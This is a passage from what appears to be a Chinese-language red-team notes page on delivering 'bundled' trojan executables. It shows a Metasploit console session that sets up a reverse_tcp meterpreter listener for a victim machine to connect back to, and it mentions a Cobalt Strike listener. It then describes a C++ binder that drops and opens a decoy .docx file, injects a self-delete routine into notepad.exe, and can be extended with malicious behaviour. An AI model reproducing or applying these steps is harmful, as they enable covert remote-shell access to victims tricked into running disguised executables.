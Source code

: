 `msconsole` 起监听

```bash
msfconsole
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_http
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 100.1.1.131
lhost => 100.1.1.131
msf6 exploit(multi/handler) > set lport 55555
lport => 55555
msf6 exploit(multi/handler) > run
```

靶机执行生成的捆绑程序即可上线

![image-20240717162355294](http://cdn.ayusummer233.top/DailyNotes/202407171623638.png)

---

或者 CS 起个 http 监听器挂在 55555 端口, 靶机运行捆绑木马即可上线 CS

![image-20240717162459264](http://cdn.ayusummer233.top/DailyNotes/202407171624408.png)

---

## cpp实现捆绑程序(TODO)

> [奇安信攻防社区-关于文件捆绑的实现 (butian.net)](https://forum.butian.net/share/1778)
>
> https://chatgpt.com/share/a5f99e0a-eec2-4616-9d24-dafde74733f1

上述文章中作者编写了如下程序, 运行该程序会创建一个新的 `.docx` 文件，并将资源文件的内容写入该文件。

打开 `.docx` 文件。

创建一个 `notepad.exe` 进程，并将删除当前程序的操作注入到该进程中，从而实现自删除功能。

当前程序实现的效果是执行 exe 后读取并生成 docx 文件然后删除 exe 文件, 需要后续修改来调用其他捆绑程序, 或者直接在当前项目中编写恶意行为

![image-20240719153446495](http://cdn.ayusummer233.top/DailyNotes/202407191534695.png)

---

使用 VisualStudio 创建一个 C++ 空项目添加下文中的 `Bundled.h` 头文件和 `Bundled.cpp` 源文件

添加资源文件

![image-20240719113917994](http://cdn.ayusummer233.top/DailyNotes/202407191139278.png)

![image-20240719113952189](http://cdn.ayusummer233.top/DailyNotes/202407191139419.png)

![image-20240719114021276](http://cdn.ayusummer233.top/DailyNotes/202407191140569.png)

![image-20240719114030789](http://cdn.ayusummer233.top/DailyNotes/202407191140019.png)
